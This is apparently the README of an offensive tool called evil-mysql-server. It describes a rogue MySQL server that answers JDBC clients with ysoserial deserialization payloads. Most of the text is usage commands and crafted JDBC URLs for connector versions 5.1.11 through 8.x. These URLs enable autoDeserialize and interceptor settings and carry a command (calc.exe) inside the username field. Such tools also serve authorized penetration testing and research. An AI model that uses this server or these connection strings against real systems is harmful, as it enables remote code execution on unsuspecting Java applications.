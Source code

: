 # evil mysql server

English | [简体中文](./README-zh_CN.md)

## Introduction

**evil-mysql-server** is a malicious database written to target jdbc deserialization vulnerabilities and requires ysoserial.

Usage

```shell
./evil-mysql-server -addr 3306 -java java -ysoserial ysoserial-0.0.6-SNAPSHOT-all.jar
```

After successful startup use jdbc to connect, where the username format is `yso_payload_command`, after successful connection **evil-mysql-server** will parse the username and generate malicious data back to the jdbc client using the following command.

```shell
java -jar ysoserial.jar CommonsCollections1 calc.exe
```

## JDBC url examples

**5.1.11-5.x**
```shell
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_CommonsCollections1_calc.exe
```

**6.x**
```shell
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_CommonsCollections1_calc.exe
```

**8.x**
```shell
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_CommonsCollections1_calc.exe
```

## Thanks

Thanks to the following projects for the inspiration

- [MySQL_Fake_Server](https://github.com/fnmsd/MySQL_Fake_Server)